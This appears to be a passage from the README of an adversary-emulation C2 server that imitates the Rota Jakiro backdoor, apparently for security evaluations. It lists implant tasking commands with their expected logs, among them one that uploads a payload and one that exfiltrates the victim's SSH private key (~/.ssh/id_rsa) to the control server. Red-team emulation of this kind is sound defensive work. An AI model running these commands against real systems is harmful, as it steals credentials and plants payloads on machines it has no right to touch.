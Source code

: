 
Open a new terminal window, navigate to the same `/evalsC2server` folder. 

Copy/Paste the task command from the [commands section](### Tasks)

>Note: Only implants with sessions can be tasked, use the listener window to view the UUID of the implant. Look for the `[SUCCESS]` message 

## Commands
When using `--set-task` with the ./evalsC2client.py script, these are the strings accepted as commands with expected arguments passed
Two types of arguments are passed:
1. `int` (sleep only) - represents seconds and used for heartbeat
1. `string` (file management commands) - the file path to query, manipulate, upload, or download
1. `string` - the command to execute in a terminal

### Tasks

#### Rota Jakiro

- C2 timeout update
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_timeout", "arg": "1"}'
    ```
	- Expected C2 server log output:
        ```
        [Task] 2023/07/31 10:16:46 sleepy time updated!
        ```

- File upload
    > :information_source: **Note:** Any file uploaded will be called local_rota_file.so
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_upload_file", "payload": "payload.so"}'
    ```
	- Expected C2 server log output:
		```
		[Task] 2023/07/31 13:40:34 successfully wrote entire file.
		```

- File download
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_steal_data", "arg": "/home/$USER/.ssh/id_rsa"}'
    ```
	- Expected C2 server log output
		```
		[SUCCESS] 2023/07/31 13:42:38 File uploaded: Successfully uploaded file to control server at './files/id_rsa'
		```

- File query
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_query_file", "arg": "local_rota_file.so"}'
    ```
	- Expected C2 server output
		```
		[Task] 2023/07/31 13:43:02 file exists
		```

